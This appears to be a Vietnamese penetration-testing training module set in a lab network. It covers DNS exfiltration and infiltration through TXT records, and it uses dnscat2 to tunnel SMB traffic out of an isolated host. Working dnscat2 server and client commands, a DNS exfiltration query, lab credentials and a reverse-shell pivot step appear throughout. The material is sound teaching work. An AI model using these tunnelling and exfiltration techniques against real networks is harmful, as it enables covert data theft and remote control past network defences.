Khi nhận được yêu cầu từ chúng ta, recursive resolver bắt đầu thực hiện các truy vấn. Nó giữ một danh sách các root name server (tính đến năm 2022, có 13 root name server được phân bố trên toàn thế giới). Nhiệm vụ đầu tiên của nó là gửi một DNS query đến một trong các root name server này. Bởi vì example.com có hậu tố “.com”, root name server sẽ phản hồi bằng địa chỉ của một DNS name server chịu trách nhiệm cho top-level domain (TLD) .com. DNS name server này được gọi là TLD name server.

Sau đó recursive resolver truy vấn .com TLD name server, hỏi DNS server nào chịu trách nhiệm cho example.com. TLD name server sẽ phản hồi bằng authoritative name server cho domain example.com.

Tiếp theo recursive resolver hỏi example.com authoritative name server để lấy địa chỉ IPv4 của www.example.com. example.com authoritative name server phản hồi bằng A record cho tên đó.

Sau đó recursive resolver trả kết quả đó cho chúng ta. Tất cả các request và response này được vận chuyển qua UDP, với UDP/53 là cổng DNS tiêu chuẩn.

Trong mạng lab của chúng ta, với MULTISERVER03 là DNS server, một yêu cầu từ PGDATABASE01 để lấy địa chỉ IP của www.example.com sẽ đi theo luồng được hiển thị bên dưới. Các firewall đã được loại bỏ khỏi sơ đồ này để đơn giản hóa.


        *Hình 3: Luồng yêu cầu DNS ở mức cao, với MULTISERVER03 được cấu hình làm DNS resolver*

*Thông thường người ta sử dụng recursive resolver do ISP cung cấp (thường được nạp sẵn trong router ISP mặc định), nhưng cũng có thể dùng các public recursive name server nổi tiếng khác. Ví dụ, Google có một public DNS server tại 8.8.8.8.*

Hãy thử điều này trong một kịch bản mới trong lab, được cấu hình chính xác cho mục đích này. Trong kịch bản này, chúng ta có một server mới: FELINEAUTHORITY. Server này nằm trên WAN cùng với máy Kali của chúng ta. Điều này có nghĩa là MULTISERVER03, CONFLUENCE01 và máy Kali của chúng ta có thể định tuyến tới nó, nhưng PGDATABASE01 và HRSHARES thì không thể.

FELINEAUTHORITY được đăng ký trong mạng này như là authoritative name server cho zone feline.corp. Chúng ta sẽ dùng nó để quan sát cách các gói DNS đi tới authoritative name server. Cụ thể, chúng ta sẽ theo dõi các gói DNS được trao đổi giữa PGDATABASE01 và FELINEAUTHORITY.

Trong khi PGDATABASE01 không thể kết nối trực tiếp tới FELINEAUTHORITY, nó có thể kết nối tới MULTISERVER03. MULTISERVER03 cũng được cấu hình làm DNS resolver server cho PGDATABASE01.


                                  *Hình 4: Bố cục mạng cho các thí nghiệm DNS của chúng ta*

*Trong thế giới thực, chúng ta sẽ tự đăng ký tên miền feline.corp, tự thiết lập máy authoritative name server, và thông báo với domain registrar rằng máy chủ này phải được biết đến như authoritative name server cho zone feline.corp. Tuy nhiên, để đơn giản trong môi trường lab này, FELINEAUTHORITY được cung cấp sẵn và đã được cấu hình trước. Trong một triển khai thực tế, chúng ta sẽ cần cấu hình server và xử lý tất cả các đăng ký ngoại vi khác để đảm bảo rằng bất kỳ DNS server nào khác cuối cùng cũng sẽ tìm thấy server của chúng ta cho mọi yêu cầu feline.corp.*

Để xem cách các DNS request sẽ được relay tới FELINEAUTHORITY từ PGDATABASE01, chúng ta cần khởi tạo các DNS request từ PGDATABASE01, và giám sát những gì đi vào FELINEAUTHORITY. Vì lý do đó, chúng ta cần một shell trên mỗi máy.

Như trong các ví dụ trước, chúng ta chỉ có thể truy cập PGDATABASE01 thông qua CONFLUENCE01. Vì vậy để kết nối tới SSH server trên PGDATABASE01, chúng ta phải pivot qua CONFLUENCE01. Chúng ta sẽ compromise CONFLUENCE01 bằng cách khai thác CVE-2022-26134 với reverse shell payload của mình, và tạo một SSH remote port forward để relay một cổng trên máy Kali của chúng ta tới dịch vụ SSH trên PGDATABASE01. Sau đó chúng ta sẽ SSH vào PGDATABASE01 với user database_admin.

Vì FELINEAUTHORITY cũng nằm trên WAN, chúng ta có thể SSH trực tiếp vào FELINEAUTHORITY với username kali và password 7he_C4t_c0ntro11er.

Bây giờ chúng ta có hai shell đang mở. Shell thứ nhất ở trên PGDATABASE01 với user database_admin, và shell thứ hai ở trên FELINEAUTHORITY với user kali.

Để mô phỏng một thiết lập DNS thực tế, chúng ta có thể biến FELINEAUTHORITY thành một DNS server hoạt động được bằng Dnsmasq. Dnsmasq là phần mềm DNS server yêu cầu cấu hình tối thiểu. Một vài file cấu hình Dnsmasq được lưu trong thư mục `~/dns_tunneling`, chúng ta sẽ dùng chúng như một phần của các thí nghiệm DNS. Với thí nghiệm ban đầu này, chúng ta sẽ dùng file cấu hình rất tối giản dnsmasq.conf.

```bash
kali@felineauthority:~$ cd dns_tunneling

kali@felineauthority:~/dns_tunneling$ cat dnsmasq.conf
# Do not read /etc/resolv.conf or /etc/hosts
no-resolv
no-hosts

# Define the zone
auth-zone=feline.corp
auth-server=feline.corp
```

                                *Listing 22 - Cấu hình cơ bản cho Dnsmasq server của chúng ta.*

Cấu hình này bỏ qua các file `/etc/resolv.conf` và `/etc/hosts` và chỉ định nghĩa các biến auth-zone và auth-server. Các biến này bảo Dnsmasq hoạt động như authoritative name server cho zone feline.corp. Hiện tại chúng ta chưa cấu hình bất kỳ record nào. Các request cho bất cứ thứ gì thuộc domain feline.corp sẽ trả về các phản hồi thất bại.

Bây giờ cấu hình đã sẵn sàng, chúng ta sẽ khởi động tiến trình dnsmasq với file cấu hình dnsmasq.conf (-C), đảm bảo nó chạy ở chế độ “no daemon” (-d) để chạy ở foreground. Chúng ta có thể dễ dàng kill nó sau đó.

```bash
kali@felineauthority:~/dns_tunneling$ sudo dnsmasq -C dnsmasq.conf -d
dnsmasq: started, version 2.88 cachesize 150
dnsmasq: compile time options: IPv6 GNU-getopt DBus no-UBus i18n IDN2 DHCP DHCPv6 no-Lua TFTP conntrack ipset nftset auth cryptohash DNSSEC loop-detect inotify dumpfile
dnsmasq: warning: no upstream servers configured
dnsmasq: cleared cache
```

                                        *Listing 23 - Khởi động Dnsmasq với cấu hình cơ bản.*

Trong một shell khác trên FELINEAUTHORITY, chúng ta sẽ thiết lập tcpdump10 để lắng nghe trên interface ens192 cho các gói DNS trên UDP/53, dùng capture filter udp port 53.

```bash
kali@felineauthority:~$ sudo tcpdump -i ens192 udp port 53
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on ens192, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

                                      *Listing 24 - Khởi động tcpdump trên FELINEAUTHORITY.*

Bây giờ tcpdump đang lắng nghe và Dnsmasq đang chạy trên FELINEAUTHORITY, chúng ta sẽ chuyển sang shell của mình trên PGDATABASE01. Từ đó chúng ta sẽ thực hiện các DNS query nhắm tới domain feline.corp.

Trước tiên hãy xác nhận cấu hình DNS của PGDATABASE01. Vì phân giải DNS được xử lý bởi systemd-resolved, chúng ta có thể kiểm tra cấu hình DNS bằng tiện ích `resolvectl`.

```bash
database_admin@pgdatabase01:~$ resolvectl status
...             

Link 5 (ens224)
      Current Scopes: DNS        
DefaultRoute setting: yes        
       LLMNR setting: yes        
MulticastDNS setting: no         
  DNSOverTLS setting: no         
      DNSSEC setting: no         
    DNSSEC supported: no         
  Current DNS Server: 10.4.50.64
         DNS Servers: 10.4.50.64

Link 4 (ens192)
      Current Scopes: DNS        
DefaultRoute setting: yes        
       LLMNR setting: yes        
MulticastDNS setting: no         
  DNSOverTLS setting: no         
      DNSSEC setting: no         
    DNSSEC supported: no         
  Current DNS Server: 10.4.50.64
         DNS Servers: 10.4.50.64
```

                           *Listing 25 - Kiểm tra DNS server được cấu hình trên PGDATABASE01.*

DNS server của PGDATABASE01 được đặt là 10.4.50.64 (MULTISERVER03). Nó sẽ query MULTISERVER03 bất cứ khi nào cần phân giải một tên miền. Nhưng PGDATABASE01 không có kết nối mạng outbound, nên nó không thể giao tiếp trực tiếp với FELINEAUTHORITY hoặc máy Kali của chúng ta.

Như một thí nghiệm, hãy dùng nslookup để tạo một DNS request cho `exfiltrated-data.feline.com`.

```bash
database_admin@pgdatabase01:~$ nslookup exfiltrated-data.feline.corp
Server:		127.0.0.53
Address:	127.0.0.53#53

** server can't find exfiltrated-data.feline.corp: NXDOMAIN
```

              *Listing 26 - Dùng nslookup để tạo một DNS request cho exfiltrated-data.feline.corp*

Lệnh này trả về một phản hồi NXDOMAIN cho biết yêu cầu DNS thất bại. Tuy nhiên điều này là kỳ vọng, vì chúng ta chưa cấu hình DNS server của mình để thực sự phục vụ bất kỳ record nào.

*nslookup đã dùng DNS server đang chạy trên localhost interface 127.0.0.53. Điều này là bình thường vì đây là DNS resolver do dịch vụ systemd-resolved chạy trên Ubuntu cung cấp. Nó sẽ forward query tới DNS server được cấu hình bởi Netplan. Tuy nhiên, nó có thể cache kết quả. Nếu chúng ta nhận các phản hồi DNS đã cũ, chúng ta nên thử flush cache DNS cục bộ bằng `resolvectl flush-caches`. Chúng ta cũng có thể query trực tiếp DNS server bằng cách thêm địa chỉ server vào lệnh nslookup. Ví dụ: `nslookup exfiltrated-data.feline.corp 192.168.50.64`.*

Chương trình tcpdump trên FELINEAUTHORITY đã bắt được các gói DNS từ MULTISERVER03.

```bash
kali@felineauthority:~$ sudo tcpdump -i ens192 udp port 53
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on ens192, link-type EN10MB (Ethernet), snapshot length 262144 bytes
04:57:40.721682 IP 192.168.50.64.65122 > 192.168.118.4.domain: 26234+ [1au] A? exfiltrated-data.feline.corp. (57)
04:57:40.721786 IP 192.168.118.4.domain > 192.168.50.64.65122: 26234 NXDomain 0/0/1 (57)
```

*Listing 27 - Các DNS request cho exfiltrated-data.feline.corp đi vào FELINEAUTHORITY từ MULTISERVER03.*

Trong trường hợp này, chúng ta đã nhận được một DNS A record request cho exfiltrated-data.feline.corp trên FELINEAUTHORITY. Điều này xảy ra vì MULTISERVER03 đã xác định authoritative name server cho zone feline.corp. Tất cả các request cho bất kỳ subdomain nào của feline.corp sẽ được forward tới FELINEAUTHORITY. Chúng ta không nói cho Dnsmasq trên FELINEAUTHORITY phải xử lý request cho exfiltrated-data.feline.corp như thế nào, vì vậy Dnsmasq chỉ trả về một phản hồi NXDomain. Chúng ta có thể thấy luồng này trong sơ đồ sau.


              *Hình 5: Luồng request sau khi phát lệnh nslookup cho exfiltrated-data.feline.corp*

Các bước mà MULTISERVER03 gửi query tới các root name server và TLD name server đã được lược bỏ ở đây để đơn giản hóa. Nhưng trong một tình huống mạng bình thường, các bước này sẽ diễn ra trước request được gửi tới FELINEAUTHORITY.

Một DNS query tùy ý từ một host nội bộ (không có kết nối outbound nào khác) đã tìm được đường tới một server bên ngoài do chúng ta kiểm soát. Điều này có thể có vẻ tinh vi, nhưng nó minh họa rằng chúng ta có thể truyền các lượng nhỏ thông tin (exfiltrated data) từ bên trong mạng ra bên ngoài, không cần kết nối trực tiếp, chỉ bằng cách tạo các DNS query.

Exfiltrate các mảnh dữ liệu plaintext nhỏ là một chuyện, nhưng hãy tưởng tượng chúng ta có một file nhị phân muốn exfiltrate từ PGDATABASE01. Chúng ta có thể làm điều đó như thế nào?

Điều này sẽ yêu cầu một chuỗi các request tuần tự. Chúng ta có thể chuyển một file nhị phân thành một chuỗi biểu diễn dạng hex dài, chia chuỗi này thành một loạt các mảnh nhỏ hơn, rồi gửi mỗi mảnh trong một DNS request cho [hex-string-chunk].feline.corp. Ở phía server, chúng ta có thể log tất cả các DNS request và chuyển đổi chúng từ một chuỗi các hex string trở lại thành một nhị phân hoàn chỉnh. Chúng ta sẽ không đi sâu thêm ở đây, nhưng điều này sẽ làm rõ khái niệm chung về DNS network exfiltration.

Bây giờ chúng ta đã bao quát quá trình exfiltrate dữ liệu ra khỏi một mạng, hãy xem xét cách chúng ta có thể infiltrate dữ liệu vào trong một mạng.

Đặc tả DNS bao gồm nhiều loại record khác nhau. Cho đến nay chúng ta đã tạo các A record request. Một A record response chứa một địa chỉ IPv4 cho tên miền được yêu cầu.

Nhưng còn có các loại record khác, một số trong đó chúng ta có thể dùng để “tuồn” dữ liệu tùy ý vào một mạng. Một trong số đó là TXT record. TXT record được thiết kế cho mục đích chung, và chứa “arbitrary string information”.

Chúng ta có thể phục vụ TXT record từ FELINEAUTHORITY bằng Dnsmasq. Trước tiên, chúng ta sẽ kill tiến trình dnsmasq trước đó bằng Ctrl+c. Sau đó chúng ta sẽ kiểm tra nội dung của dnsmasq_txt.conf và chạy dnsmasq lại với cấu hình mới này.

```bash
kali@felineauthority:~/dns_tunneling$ cat dnsmasq_txt.conf
# Do not read /etc/resolv.conf or /etc/hosts
no-resolv
no-hosts

# Define the zone
auth-zone=feline.corp
auth-server=feline.corp

# TXT record
txt-record=www.feline.corp,here's something useful!
txt-record=www.feline.corp,here's something else less useful.

kali@felineauthority:~/dns_tunneling$ sudo dnsmasq -C dnsmasq_txt.conf -d
dnsmasq: started, version 2.88 cachesize 150
dnsmasq: compile time options: IPv6 GNU-getopt DBus no-UBus i18n IDN2 DHCP DHCPv6 no-Lua TFTP conntrack ipset nftset auth cryptohash DNSSEC loop-detect inotify dumpfile
dnsmasq: warning: no upstream servers configured
dnsmasq: cleared cache
```

                           *Listing 28 - Kiểm tra file cấu hình TXT rồi khởi động Dnsmasq với nó.*

dnsmasq_txt.conf chứa hai dòng bổ sung bắt đầu bằng “txt-record=”. Mỗi dòng này đại diện cho một TXT record mà Dnsmasq sẽ phục vụ. Mỗi dòng chứa domain mà TXT record dành cho, rồi một thuộc tính chuỗi tùy ý, được phân tách bằng dấu phẩy. Từ hai định nghĩa này, bất kỳ TXT record request nào cho www.feline.corp sẽ trả về các chuỗi “here's something useful!” và “here's something else less useful.”.

Hãy kiểm tra giả thuyết này. Quay lại PGDATABASE01, chúng ta sẽ tạo một request TXT record cho www.feline.corp với nslookup bằng cách truyền đối số -type=txt.

```bash
database_admin@pgdatabase01:~$ nslookup -type=txt www.feline.corp
Server:		192.168.50.64
Address:	192.168.50.64#53

Non-authoritative answer:
www.feline.corp	text = "here's something useful!"
www.feline.corp	text = "here's something else less useful."

Authoritative answers can be found from:

database_admin@pgdatabase01:~$
```

                                           *Listing 29 - TXT record response từ www.feline.corp.*

Thành công! Chúng ta đã nhận được các thuộc tính chuỗi tùy ý đã được định nghĩa trong dnsconfig_txt.conf.

Đây là một cách để đưa dữ liệu vào một mạng nội bộ bằng các DNS record. Nếu chúng ta muốn infiltrate dữ liệu nhị phân, chúng ta có thể phục vụ nó như một loạt các TXT record được mã hóa Base64 hoặc ASCII hex, và chuyển đổi nó trở lại dạng nhị phân trên server nội bộ.

Trong phần này, chúng ta đã thảo luận cách chúng ta có thể infiltrate hoặc exfiltrate dữ liệu thông qua các loại DNS record khác nhau. Trong phần tiếp theo, chúng ta sẽ có trải nghiệm thực hành với framework dnscat, framework này tận dụng các kỹ thuật này để tạo một DNS tunnel đa dụng.

---

## 2.2. DNS Tunneling với dnscat2

---

Chúng ta có thể dùng dnscat2 để exfiltrate dữ liệu bằng các truy vấn DNS subdomain và infiltrate dữ liệu bằng TXT (và các) record khác.

Một dnscat2 server chạy trên một authoritative name server cho một domain cụ thể, và các client (được cấu hình để tạo truy vấn tới domain đó) sẽ chạy trên các máy đã bị compromise.

Hãy thử dnscat2. Chúng ta sẽ kiểm tra lưu lượng từ FELINEAUTHORITY bằng tcpdump, lọc cụ thể trên UDP port 53 (udp port 53).

```
kali@felineauthority:~$ sudo tcpdump -i ens192 udp port 53
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on ens192, link-type EN10MB (Ethernet), snapshot length 262144 bytes
```

                         *Listing 30 - Khởi động tcpdump để lắng nghe các gói trên UDP port 53.*

Chúng ta sẽ kill tiến trình Dnsmasq hiện có bằng Ctrl+c và chạy dnscat2-server thay vào đó, truyền `domain feline.corp` làm đối số duy nhất.

```
kali@felineauthority:~$ dnscat2-server feline.corp

New window created: 0
New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 0.0.0.0:53
[domains = feline.corp]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=c6cbfa40606776bf86bf439e5eb5b8e7 feline.corp

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=c6cbfa40606776bf86bf439e5eb5b8e7

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

dnscat2>
```

                                                         *Listing 31 - Khởi động dnscat2 server.*

Điều này cho thấy dnscat2 server đang lắng nghe trên tất cả các interface trên UDP/53.

Bây giờ server của chúng ta đã được thiết lập, chúng ta sẽ chuyển sang PGDATABASE01 để chạy dnscat2 client binary. Binary này đã có sẵn trên server cho bài tập này. Tuy nhiên, chúng ta cũng có thể đã chuyển binary từ máy Kali của mình sang PGDATABASE01 thông qua kết nối SSH bằng SCP.

*Việc nghĩ về các kỹ thuật exfiltration (như DNS tunneling) có thể trông giống như một bài toán “chicken or the egg”. Làm thế nào chúng ta đưa được DNS tunneling client lên một host nếu chúng ta không có khả năng thực thi lệnh? Exfiltration đơn giản chỉ là một công cụ chúng ta sẽ dùng để chuyển dữ liệu. Nó nên được kết hợp với một vector khai thác cung cấp quyền truy cập vào mạng mục tiêu.*

Chúng ta sẽ chạy dnscat2 client binary từ thư mục dnscat trong thư mục home của user database_admin, với domain feline.corp được truyền làm đối số duy nhất.

```
database_admin@pgdatabase01:~$ cd dnscat/
database_admin@pgdatabase01:~/dnscat$ ./dnscat feline.corp
Creating DNS driver:
 domain = feline.corp
 host   = 0.0.0.0
 port   = 53
 type   = TXT,CNAME,MX
 server = 127.0.0.53

Encrypted session established! For added security, please verify the server also displays this string:

Annoy Mona Spiced Outran Stump Visas 

Session established!
```

                                        *Listing 32 - dnscat2 client chạy trên PGDATABASE01.*

dnscat2 client báo cáo rằng một session đã được thiết lập. Chúng ta có thể kiểm tra các kết nối ở phía dnscat2 server của mình.

```
kali@felineauthority:~$ dnscat2-server feline.corp
[sudo] password for kali: 

New window created: 0
New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 0.0.0.0:53
[domains = feline.corp]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=7a87a5d0a8480b080896606df6b63944 feline.corp

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=7a87a5d0a8480b080896606df6b63944

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

dnscat2> New window created: 1
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:

>> Annoy Mona Spiced Outran Stump Visas

dnscat2>
```

                                                  *Listing 33 - Kết nối đi vào từ dnscat2 client.*

Session của chúng ta đã kết nối! DNS đang hoạt động đúng như kỳ vọng. Các request từ PGDATABASE01 đang được MULTISERVER03 phân giải, và đi tới FELINEAUTHORITY.

*Khi chạy mà không có cờ --secret được chia sẻ trước ở mỗi đầu, dnscat2 sẽ in ra một chuỗi xác thực. Chuỗi này được dùng để xác minh tính toàn vẹn của kết nối sau khi mã hóa đã được thương lượng. Chuỗi xác thực trong trường hợp này (“Annoy Mona Spiced Outran Stump Visas”) là giống nhau trên cả client và server, nên chúng ta biết rằng không có sự can thiệp in-line. Mỗi lần một kết nối được tạo, chuỗi xác thực sẽ thay đổi.*

Chúng ta có thể dùng tiến trình tcpdump để giám sát các DNS request tới feline.corp:

```
...
07:22:14.732111 IP 192.168.50.64.51077 > 192.168.118.4.domain: 29066+ [1au] TXT? 8f150140b65c73af271ce019c1ede35d28.feline.corp. (75)
07:22:14.732538 IP 192.168.118.4.domain > 192.168.50.64.51077: 29066 1/0/0 TXT "b40d0140b6a895ada18b30ffff0866c42a" (111)
07:22:15.387435 IP 192.168.50.64.65022 > 192.168.118.4.domain: 65401+ CNAME? bbcd0158e09a60c01861eb1e1178dea7ff.feline.corp. (64)
07:22:15.388087 IP 192.168.118.4.domain > 192.168.50.64.65022: 65401 1/0/0 CNAME a2890158e06d79fd12c560ffff57240ba6.feline.corp. (124)
07:22:15.741752 IP 192.168.50.64.50500 > 192.168.118.4.domain: 6144+ [1au] CNAME? 38b20140b6a4ccb5c3017c19c29f49d0db.feline.corp. (75)
07:22:15.742436 IP 192.168.118.4.domain > 192.168.50.64.50500: 6144 1/0/0 CNAME e0630140b626a6fa2b82d8ffff0866c42a.feline.corp. (124)
07:22:16.397832 IP 192.168.50.64.50860 > 192.168.118.4.domain: 16449+ MX? 8a670158e004d2f8d4d5811e1241c3c1aa.feline.corp. (64)
07:22:16.398299 IP 192.168.118.4.domain > 192.168.50.64.50860: 16449 1/0/0 MX 385b0158e0dbec12770c9affff57240ba6.feline.corp. 10 (126)
07:22:16.751880 IP 192.168.50.64.49350 > 192.168.118.4.domain: 5272+ [1au] MX? 68fd0140b667aeb6d6d26119c3658f0cfa.feline.corp. (75)
07:22:16.752376 IP 192.168.118.4.domain > 192.168.50.64.49350: 5272 1/0/0 MX d01f0140b66950a355a6bcffff0866c42a.feline.corp. 10 (126)
07:22:17.407889 IP 192.168.50.64.50621 > 192.168.118.4.domain: 39215+ MX? cd6f0158e082e5562128b71e1353f111be.feline.corp. (64)
07:22:17.408397 IP 192.168.118.4.domain > 192.168.50.64.50621: 39215 1/0/0 MX 985d0158e00880dad6ec05ffff57240ba6.feline.corp. 10 (126)
07:22:17.762124 IP 192.168.50.64.49720 > 192.168.118.4.domain: 51139+ [1au] TXT? 49660140b6509f242f870119c47da533b7.feline.corp. (75)
07:22:17.762610 IP 192.168.118.4.domain > 192.168.50.64.49720: 51139 1/0/0 TXT "8a3d0140b6b05bb6c723aeffff0866c42a" (111)
07:22:18.417721 IP 192.168.50.64.50805 > 192.168.118.4.domain: 57236+ TXT? 3e450158e0e52d9dbf02e91e1492b9d0c5.feline.corp. (64)
07:22:18.418149 IP 192.168.118.4.domain > 192.168.50.64.50805: 57236 1/0/0 TXT "541d0158e09264101bde14ffff57240ba6" (111)
07:22:18.772152 IP 192.168.50.64.50433 > 192.168.118.4.domain: 7172+ [1au] TXT? d34f0140b6d6bd4779cb2419c56ad7d600.feline.corp. (75)
07:22:18.772847 IP 192.168.118.4.domain > 192.168.50.64.50433: 7172 1/0/0 TXT "17880140b6d23c86eaefe7ffff0866c42a" (111)
07:22:19.427556 IP 192.168.50.64.50520 > 192.168.118.4.domain: 53513+ CNAME? 8cd10158e01762c61a056c1e1537228bcc.feline.corp. (64)
07:22:19.428064 IP 192.168.118.4.domain > 192.168.50.64.50520: 53513 1/0/0 CNAME b6e10158e0a682c6c1ca43ffff57240ba6.feline.corp. (124)
07:22:19.782712 IP 192.168.50.64.50186 > 192.168.118.4.domain: 58205+ [1au] TXT? 8d5a0140b66454099e7a8119c648dffe8e.feline.corp. (75)
07:22:19.783146 IP 192.168.118.4.domain > 192.168.50.64.50186: 58205 1/0/0 TXT "2b4c0140b608687c966b10ffff0866c42a" (111)
07:22:20.438134 IP 192.168.50.64.65235 > 192.168.118.4.domain: 52335+ CNAME? b9740158e00bc5bfbe3eb81e16454173b8.feline.corp. (64)
07:22:20.438643 IP 192.168.118.4.domain > 192.168.50.64.65235: 52335 1/0/0 CNAME c0330158e07c85b2dfc880ffff57240ba6.feline.corp. (124)
07:22:20.792283 IP 192.168.50.64.50938 > 192.168.118.4.domain: 958+ [1au] TXT? b2d20140b600440d37090f19c79d9f6918.feline.corp. (75)
...
```

                 *Listing 34 - Rất nhiều DNS query được tạo tới feline.corp, như thấy trong tcpdump.*

Tiến trình dnscat2 đang dùng các query và response CNAME, TXT và MX. Như dữ liệu mạng này cho thấy, DNS tunneling chắc chắn không “stealthy”! Output này lộ ra một lượng truyền dữ liệu rất lớn từ dnscat2 client đến server. Tất cả payload của request và response đều được mã hóa, nên việc tiếp tục log lưu lượng không đem lại nhiều lợi ích. Chúng ta sẽ kill tcpdump bằng Ctrl+c.

Bây giờ chúng ta sẽ bắt đầu tương tác với session của mình từ dnscat2 server. Hãy liệt kê tất cả các window đang hoạt động bằng lệnh windows, rồi chạy window -i từ “command” shell mới của chúng ta để liệt kê các lệnh khả dụng.

```
dnscat2> windows
0 :: main [active]
  crypto-debug :: Debug window for crypto stuff [*]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = feline.corp [*]
  1 :: command (pgdatabase01) [encrypted, NOT verified] [*]
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:

>> Annoy Mona Spiced Outran Stump Visas
This is a command session!

That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.

command (pgdatabase01) 1> ?

Here is a list of commands (use -h on any of them for additional help):
* clear
* delay
* download
* echo
* exec
* help
* listen
* ping
* quit
* set
* shell
* shutdown
* suspend
* tunnels
* unset
* upload
* window
* windows
command (pgdatabase01) 1>
```

                                  *Listing 35 - Tương tác với dnscat2 client từ phía server.*

Điều này trả về một prompt với tiền tố “command”. Đây là dnscat2 command session, và nó hỗ trợ khá nhiều tùy chọn. Chúng ta có thể tìm hiểu thêm về từng lệnh bằng cách chạy nó với cờ --help.

Vì chúng ta đang cố gắng tunnel trong Module này, hãy điều tra các tùy chọn port forwarding. Chúng ta có thể dùng listen để thiết lập một cổng lắng nghe trên dnscat2 server của mình, và đẩy lưu lượng TCP qua DNS tunnel, nơi nó sẽ được decapsulate và đẩy tới một socket mà chúng ta chỉ định. Hãy background phiên console của chúng ta bằng cách nhấn Ctrl+z. Trở lại command session, hãy chạy listen --help.

```
command (pgdatabase01) 1> listen --help
Error: The user requested help
Listens on a local port and sends the connection out the other side (like ssh
	-L). Usage: listen [<lhost>:]<lport> <rhost>:<rport>
  --help, -h:   Show this message
```

                                                            *Listing 36 - Thông tin về lệnh listen.*

Theo output help message, listen hoạt động rất giống ssh -L. Và đến giờ thì chúng ta phải rất quen với điều đó.

Hãy thử kết nối tới cổng SMB trên HRSHARES, lần này thông qua DNS tunnel của chúng ta. Chúng ta sẽ thiết lập một local port forward, lắng nghe trên 4455 trên loopback interface của FELINEAUTHORITY, và forward tới 445 trên HRSHARES.

```
command (pgdatabase01) 1> listen 127.0.0.1:4455 172.16.2.11:445
Listening on 127.0.0.1:4455, sending connections to 172.16.2.11:445
command (pgdatabase01) 1> 
```

                *Listing 37 - Thiết lập một port forward từ FELINEAUTHORITY tới PGDATABASE01.*

Từ một shell khác trên FELINEAUTHORITY, chúng ta có thể liệt kê các SMB share thông qua port forward này.

```bash
kali@felineauthority:~$ smbclient -p 4455 -L //127.0.0.1 -U hr_admin --password=Welcome1234
Password for [WORKGROUP\hr_admin]:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
	    	scripts         Disk
        Users           Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 192.168.50.63 failed (Error NT_STATUS_CONNECTION_REFUSED)
Unable to connect with SMB1 -- no workgroup available
```

               *Listing 38 - Kết nối tới SMB server của HRSHARES thông qua dnscat2 port forward.*

Kết nối chậm hơn so với kết nối trực tiếp, nhưng điều này là kỳ vọng vì các gói SMB của chúng ta đang được vận chuyển qua dnscat2 DNS tunnel. Các gói SMB dựa trên TCP, được encapsulate trong các DNS request và response vận chuyển qua UDP, đang ping qua ping lại tới SMB server trên HRSHARES, sâu bên trong mạng nội bộ. Rất tốt!

Trong Learning Unit này chúng ta đã dùng dnscat2 để tunnel lưu lượng SMB thông qua các DNS request và response. Chúng ta đã dùng điều đó để liệt kê các share khả dụng trên một host nằm sâu trong mạng nội bộ, mặc dù cả HRSHARES lẫn PGDATABASE01 đều không có kết nối trực tiếp tới FELINEAUTHORITY server của chúng ta.

---

# 3. Tổng kết

---

Trong Module này, chúng ta đã bao gồm cả HTTP và DNS tunneling. Các chiến lược này có thể hữu ích khi cố gắng đi xuyên qua các môi trường mạng được gia cố hơn, đặc biệt là để vượt qua các hệ thống thực hiện deep packet inspection, hoặc các cơ chế phân tích lưu lượng mạng khác. Chúng ta đã thực hiện HTTP tunneling với Chisel, và DNS tunneling với dnscat2 - và đã trải nghiệm một số ưu và nhược điểm của cả hai.